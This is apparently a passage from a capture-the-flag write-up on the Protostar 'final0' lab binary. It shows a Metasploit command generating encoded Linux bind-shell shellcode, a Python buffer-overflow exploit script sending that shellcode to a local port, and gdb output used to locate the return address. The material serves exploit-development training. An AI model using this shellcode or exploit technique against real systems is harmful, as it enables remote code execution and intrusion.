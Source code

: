 ```
mandreko@li225-134:~$ msfpayload linux/x86/shell_bind_tcp R | msfencode -b '\x00\xff\x0d\x0a' -e x86/shikata_ga_nai -t c
[*] x86/shikata_ga_nai succeeded with size 105 (iteration=1)

unsigned char buf[] = 
"\xdb\xce\xd9\x74\x24\xf4\xbb\xa3\xc2\x12\x69\x58\x2b\xc9\xb1"
"\x14\x31\x58\x19\x03\x58\x19\x83\xe8\xfc\x41\x37\x23\xb2\x72"
"\x5b\x17\x07\x2f\xf6\x9a\x0e\x2e\xb6\xfd\xdd\x30\xec\x5f\x8c"
"\x58\xec\x62\x21\xc4\x78\x73\x10\xa4\xf5\x92\xf8\x22\x5e\x98"
"\x7d\x23\x1f\x26\xcd\x37\x10\x40\xfc\xb7\x13\x3d\x98\x7a\x13"
"\xae\x3c\xee\x2b\x89\x73\x6e\x1a\x50\x74\x06\xb2\x8d\xf7\xbe"
"\xa4\xfe\x95\x57\x5b\x88\xb9\xf7\xf0\x03\xdc\x47\xfd\xde\x9f";
```

I used this shellcode after the return, to generate a basic script:

```
#!/usr/bin/python

from socket import *
from struct import *

s = socket(AF_INET, SOCK_STREAM)
s.connect(("localhost", 2995))

offset = 532
ret = "\xEF\xBE\xAD\xDE"
nop = "\x90"*16
junk = "a"*(offset-len(nop))
junk2 = "\x90" * 12

shellcode = "\xdb\xce\xd9\x74\x24\xf4\xbb\xa3\xc2\x12\x69\x58\x2b\xc9\xb1" \
"\x14\x31\x58\x19\x03\x58\x19\x83\xe8\xfc\x41\x37\x23\xb2\x72" \
"\x5b\x17\x07\x2f\xf6\x9a\x0e\x2e\xb6\xfd\xdd\x30\xec\x5f\x8c" \
"\x58\xec\x62\x21\xc4\x78\x73\x10\xa4\xf5\x92\xf8\x22\x5e\x98" \
"\x7d\x23\x1f\x26\xcd\x37\x10\x40\xfc\xb7\x13\x3d\x98\x7a\x13" \
"\xae\x3c\xee\x2b\x89\x73\x6e\x1a\x50\x74\x06\xb2\x8d\xf7\xbe" \
"\xa4\xfe\x95\x57\x5b\x88\xb9\xf7\xf0\x03\xdc\x47\xfd\xde\x9f"

s.send(nop + junk + ret + junk2 + shellcode)
```

This script is pretty simple, just getting to the return address, and then adding a nop sled, and the shellcode afterwards.  It just needs to have a return address to the shellcode, which we can then find using gdb.

```
root@protostar:/home/user# gdb --quiet --core=/tmp/core.11.final0.14867 
Core was generated by `/opt/protostar/bin/final0'.
Program terminated with signal 11, Segmentation fault.
#0  0xdeadbeef in ?? ()
(gdb) x/10x 0xbffffcd0
0xbffffcd0: 0x90909090 0x90909090 0x90909090 0x74d9cedb
0xbffffce0: 0xa3bbf424 0x586912c2 0x14b1c92b 0x03195831
0xbffffcf0: 0xe8831958 0x233741fc
```
